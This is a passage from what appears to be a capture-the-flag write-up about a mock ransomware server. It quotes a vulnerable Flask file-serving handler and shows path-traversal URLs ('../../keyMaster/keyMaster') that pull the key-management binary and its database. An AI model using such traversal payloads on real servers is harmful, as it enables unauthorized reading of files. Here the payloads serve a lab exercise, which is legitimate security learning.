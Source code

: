 ```python
def fetchlog():
        log = request.args.get('log')
        return send_file("/opt/ransommethis/log/" + log)
```

1. __KeyGen Log:__ - https://bjfqkzebewayjhlt.ransommethis.net/bxhmtnkpzfvffrha/fetchlog?log=keygeneration.log
2. __keyMaster Executable:__ https://bjfqkzebewayjhlt.ransommethis.net/bxhmtnkpzfvffrha/fetchlog?log=../../keyMaster/keyMaster
3. __keyMaster Database:__ https://bjfqkzebewayjhlt.ransommethis.net/bxhmtnkpzfvffrha/fetchlog?log=../../keyMaster/keyMaster.db

We also know about serveral different usages of keyMaster binary from the `server.py` files:

Lock
```python
result = subprocess.run([
	"/opt/keyMaster/keyMaster",
	'lock',
	str(cid),
	request.args.get('demand'),
	util.get_username()],
	capture_output=True, check=True, text=True, cwd="/opt/keyMaster/")
```

Unlock
```python
result = subprocess.run([
	"/opt/keyMaster/keyMaster",
	'unlock',
	request.args.get('receipt')],
	capture_output=True, check=True, text=True, cwd="/opt/keyMaster/")
```

Credit
```python
result = subprocess.run([
	"/opt/keyMaster/keyMaster",
	'credit',
	args.get('hackername'),
	args.get('credits'),
	args.get('receipt')],
	capture_output=True, check=True, text=True, cwd="/opt/keyMaster")
```

Once the keyMaster binary is downloaded and we attempt to run it, 
we can see that it is a golang executable.

```bash
❯ ./keyMaster
panic: runtime error: index out of range [1] with length 1

goroutine 1 [running]:
main.main()
        /generator/cmd/keyMaster/main.go:261 +0xe48
```
